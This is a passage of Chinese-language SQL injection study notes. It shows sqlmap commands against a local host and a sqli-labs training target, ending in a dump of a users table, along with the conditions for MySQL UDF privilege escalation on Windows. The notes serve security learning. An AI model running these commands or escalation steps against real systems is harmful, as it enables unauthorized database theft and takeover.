 ```shell
sqlmap -u "http://127.0.0.1/?id=1&name=1" -p "id" --random-agent -technique=T -level 2 -v 3
```

+ <font style="color:rgb(77, 77, 77);">–p 指定注入参数</font>
+ <font style="color:rgb(77, 77, 77);">–level=LEVEL 执行测试的等级（1-5，默认为1）</font>













windows下udf提权的条件

• 如果 mysql 版本大于 5.1，udf.dll 文件必须放置在 mysql 安装目录的

lib\plugin 文件夹下（没有则自己创建）

• 如果 mysql 版本小于 5.1， udf.dll 文件在 windows server 2003 下放置于c:\windows\system32 目录

• 在 windows server 2000 下放置在c:\winnt\system32 目录。

• 掌握 mysql 数据库的账户，从而拥有对 mysql 的 insert 和 delete 权限，以创建和抛弃函数。

• 拥有可以将 udf.dll 写入相应目录的权限



sqlmap 指定参数注入：

`python sqlmap.py -u "url" -p "id,user-agent"`



## Sqlmap 流程
1. 注入探测

```shell
python sqlmap.py -u "http://10.3.5.20/sqlilabs/Less-1/?id=1"
```

![](https://cdn.nlark.com/yuque/0/2024/png/26945670/1727141466975-3233ebc0-81af-4a9d-a232-c3e45f17fd1b.png)

```shell
python sqlmap.py -u "http://10.3.5.20/sqlilabs/Less-1/?id=1" --current-db
python sqlmap.py -u "http://10.3.5.20/sqlilabs/Less-1/?id=1" -D security --tables
python sqlmap.py -u "http://10.3.5.20/sqlilabs/Less-1/?id=1" -D security -T users --dump
```

# 0x08 UDF 提权原理
[udf提权原理详解 - ka1n4t - 博客园](https://www.cnblogs.com/litlife/p/9030673.html)







# 0x09 Sql注入Fuzz
> 参考文章：
>
> [SQL注入针对关键字过滤的绕过技巧](https://zu1k.com/posts/security/web-security/bypass-tech-for-sql-injection-keyword-filtering/#%E4%BD%BF%E7%94%A8%E7%BC%96%E7%A0%81%E7%BB%95%E8%BF%87%E8%BF%87%E6%BB%A4)
>
